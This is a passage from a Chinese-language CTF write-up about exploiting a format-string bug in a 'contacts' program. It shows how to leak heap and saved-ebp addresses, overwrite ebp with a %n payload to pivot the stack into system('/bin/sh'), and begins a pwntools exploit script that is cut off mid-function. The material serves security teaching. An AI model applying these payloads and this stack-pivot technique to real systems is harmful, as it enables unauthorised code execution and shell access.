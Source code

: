 再者，我们可以看出下面的地址保存着上层函数的调用地址，其相对于格式化字符串的偏移为 6，这样我们可以直接修改上层函数存储的 ebp 的值。

```shell
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000	 ← $ebp
```

#### 构造联系人获取堆地址

得知上面的信息后，我们可以利用下面的方式获取堆地址与相应的 ebp 地址。

```text
[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]
```

来获取对应的相应的地址。后面的 bbbb 是为了接受字符串方便。

这里因为函数调用时所申请的栈空间与释放的空间是一致的，所以我们得到的 ebp 地址并不会因为我们再次调用而改变。

在部分环境下，system地址会出现\x00，导致printf的时候出现0截断导致无法泄露两个地址，因此可以将payload的修改如下：

```text
[%6$p][%11$p][ccc][system_addr][bbbb][binsh_addr][dddd]
```

payload修改为这样的话，还需要在heap上加入12的偏移。这样保证了0截断出现在泄露之后。

#### 修改ebp

由于我们需要执行 move 指令将 ebp 赋给 esp，并还需要执行 pop ebp 才会执行 ret 指令，所以我们需要将 ebp 修改为存储 system 地址 -4 的值。这样 pop ebp 之后，esp 恰好指向保存 system 的地址，这时在执行 ret 指令即可执行 system 函数。

上面已经得知了我们希望修改的 ebp 值，而也知道了对应的偏移为 6，所以我们可以构造如下的 payload 来进行修改相应的值。

```
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
```

#### 获取shell

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入 5，退出程序即会执行 ret 指令，就可以获取 shell。

#### 利用程序

```python
from pwn import *
from LibcSearcher import *
contact = ELF('./contacts')
##context.log_level = 'debug'
if args['REMOTE']:
    sh = remote(11, 111)
else:
    sh = process('./contacts')


def createcontact(name, phone, descrip_len, description):
    sh.recvuntil('>>> ')
    sh.sendline('1')
    sh.recvuntil('Contact info: \n')
    sh.recvuntil('Name: ')
    sh.sendline(name)
    sh.recvuntil('You have 10 numbers\n')
    sh.sendline(phone)
    sh.recvuntil('Length of description: ')
    sh.sendline(descrip_len)
    sh.recvuntil('description:\n\t\t')
    sh.sendline(description)


def printcontact():
```